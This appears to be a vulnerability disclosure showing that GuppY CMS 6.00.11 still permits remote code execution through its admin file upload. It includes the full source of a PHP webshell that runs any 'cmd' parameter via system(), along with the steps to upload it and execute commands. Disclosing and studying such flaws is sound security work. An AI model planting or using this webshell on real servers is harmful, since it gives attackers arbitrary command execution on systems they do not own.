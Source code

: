 # GuppY CMS 6.00.11 Remote Code Execution via Upload File
## Author: Tuannq

In previous version (6.00.10), this CMS is vulnerable to RCE vulnerability via uploading malicious file.

It's said that, the vulnerability has been fixed in version 6.00.11. However, after testing, I found out that, I can still upload the PHP file, and execute command via the uploaded webshell.

![](https://hackmd.io/_uploads/HJby18jSh.png)
> GuppY version 6.00.11

![](https://hackmd.io/_uploads/SJmOx8iHn.png)

Access the path: `http://localhost/guppy/admin/admin.php?lng=en&pg=upload`
Upload the PHP webshell.
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

![](https://hackmd.io/_uploads/r11qgUoHh.png)

![](https://hackmd.io/_uploads/H1jKArsH3.png)
Access the uploaded file, and execute command via `cmd` parameter.
View the response and confirm that the command is executed.